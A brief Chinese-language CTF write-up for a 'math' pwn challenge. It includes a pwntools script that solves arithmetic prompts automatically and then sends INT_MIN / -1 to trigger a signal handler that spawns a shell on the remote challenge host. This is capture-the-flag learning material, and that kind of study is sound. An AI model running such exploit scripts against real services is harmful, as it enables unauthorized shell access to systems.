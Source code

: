 ## 考点

pwntools使用

signal函数报错



## 工具

pwntools



## 步骤

- 首先利用pwntools编写脚本，快速完成加法，减法，乘法的计算

- 自定义出发，int_min / -1 导致signal函数调用拿到shell

~~~python
#!/usr/bin/env python3
from pwn import *
p = process('./math')
p = remote('10.212.27.23', 12138) 
context(os='linux', arch='amd64', log_level='debug')

for i in range(20):
    p.recvuntil('numberA = :')
    a = int(p.recvuntil('\n'))
    p.recvuntil('numberB = :')
    b = int(p.recvuntil('\n'))
    log.info('a: ' + str(a))
    log.info('b: ' + str(b))
    op =  p.recvuntil(':')
    op = chr(op[-4])
    log.info('op: ' + op)
    if op == "*":
        p.sendline(str(a*b))
    elif op == "+":
        p.sendline(str(a+b))
    else:
        p.sendline(str(a-b))

p.sendlineafter("number:", str(-2147483648) + " " + str(-1))

p.interactive()
~~~




## 总结

比去年的签到难了一点，但是也算新学个东西，还是不错的
